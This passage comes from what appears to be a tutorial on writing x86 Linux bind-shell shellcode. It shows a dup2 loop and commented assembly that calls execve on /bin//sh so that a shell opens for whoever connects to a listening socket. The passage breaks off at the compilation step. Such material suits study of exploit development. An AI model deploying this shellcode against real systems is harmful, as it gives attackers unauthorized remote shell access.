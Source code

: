     DupLoop :
	 
	    mov al, 0x3f
	    int 0x80
	    dec ecx
	    jns DupLoop	


### <span style="color:#2d8fb3;"> Execve </span>

Now that we created a socket which is listening and accepting the connections, we will create the part of the code which will launch the execve syscall when someone is connecting to it.

    man 2 Execve
    int execve(const char *pathname, char *const argv[], char *const envp[])

The arguments are:

1) const char *pathname: Pointer to the filename

2) char *const argv[]: Pointer to the argument of the function

3) char *const envp[]: Array of pointers to strings passed as environment of the new program

We will pass the following arguments :
- EAX : 0xb (execve sys call, 11 in decimal)
- EBX : Pointer to /bin//sh + 0X00000000        
- ECX : Pointer to the address of EBX
- EDX : NULL

To pass the argument /bin/sh, we first converted it in hexadecimal and then reverse it.

**Assembly Code:**

    ; Push the 0x00000000 on the stack
	xor eax, eax
	push eax
	; put the string on the stack
	push 0x68732f2f
	push 0x6e69622f
	; setup EBX with the vlue of ESP
	mov ebx, esp
	; set up EDX and push null bytes again
	push eax
	mov edx, esp
	; set up ECX argv address on the first dw and null in second dw
	push ebx 
	; Then move the top of the stack into ECX
	mov ecx, esp
	; EAX
	mov al, 0xb
	int 0x80

###  <span style="color:#2d8fb3;"> Compilation </span>

Then we compiled the code with the following python script :
